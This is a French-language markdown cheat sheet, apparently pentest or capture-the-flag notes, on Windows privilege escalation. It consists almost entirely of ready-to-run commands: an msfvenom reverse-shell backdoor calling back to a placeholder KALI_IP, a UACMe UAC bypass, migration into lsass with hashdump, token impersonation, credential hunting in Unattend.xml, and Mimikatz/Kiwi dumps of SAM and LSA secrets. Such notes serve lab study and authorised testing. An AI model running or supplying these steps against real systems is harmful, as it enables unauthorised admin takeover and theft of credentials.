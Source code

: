 # 🏴‍☠️ Élévation de Privilèges Windows

[← Retour à la table des matières](../README.md)

## Kernel Exploits

### Local Exploit Suggester
```bash
# Dans un meterpreter actif
use post/multi/recon/local_exploit_suggester
set SESSION session_id
run
```

## Bypass UAC avec UACMe

### Génération du payload malveillant
```bash
# Génération avec msfvenom
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=4444 -f exe > backdoor.exe
```

### Upload et exécution
```bash
# Dans le meterpreter
cd C:\\Users\\admin\\AppData\\Local\\Temp
upload /root/Desktop/tools/UACME/Akagi64.exe .
upload /root/backdoor.exe .

# Démarrer un handler dans un autre msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST KALI_IP
set LPORT 4444
run

# Exécution du bypass UAC (adapter selon la version)
shell
Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
```

### Post-bypass
```bash
# Dans le nouveau meterpreter avec privilèges élevés
ps -S lsass.exe
migrate PID_LSASS
hashdump
```

## Access Token Impersonation

### Vérification des privilèges
```bash
# Dans meterpreter
getprivs
# Rechercher SeImpersonatePrivilege
```

### Utilisation d'Incognito
```bash
# Chargement du module
load incognito

# Liste des tokens disponibles
list_tokens -u

# Impersonation d'un token administrateur
impersonate_token "DOMAIN\\Administrator"

# Migration vers un processus stable
pgrep explorer
migrate PID_EXPLORER
```

## Credential Dumping

### PowerSploit et PowerUp
```bash
# Dans un shell Windows
cd .\Desktop\PowerSploit\Privesc\
powershell -ep bypass
. .\PowerUp.ps1
Invoke-PrivescAudit

# Recherche dans les fichiers de configuration
cat C:\Windows\Panther\Unattend.xml
```

### Décodage de mots de passe Base64
```powershell
# Exemple de décodage
$password='QWRtaW5AMTIz'
$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
echo $password
```

### Utilisation des credentials découverts
```cmd
# Exécution en tant qu'administrateur
runas.exe /user:administrator cmd
# Entrer le mot de passe découvert
whoami
```

## Kiwi Plugin (Mimikatz)

### Chargement et utilisation
```bash
# Migration vers lsass.exe (requis)
migrate -N lsass.exe

# Chargement du plugin Kiwi
load kiwi

# Dump de tous les credentials
creds_all

# Dump du SAM
lsa_dump_sam

# Dump des secrets LSA
lsa_dump_secrets
```

## Commandes utiles pour la recherche de flags

### Windows
```cmd
# Liste des répertoires
dir C:\

# Lecture d'un fichier
type C:\path\to\flag.txt

# Recherche récursive
dir C:\ /s /b | findstr flag
```

### Linux (via RDP)
```bash
# Connexion RDP depuis Linux
xfreerdp /u:username /p:password /v:targetIP:targetPort
```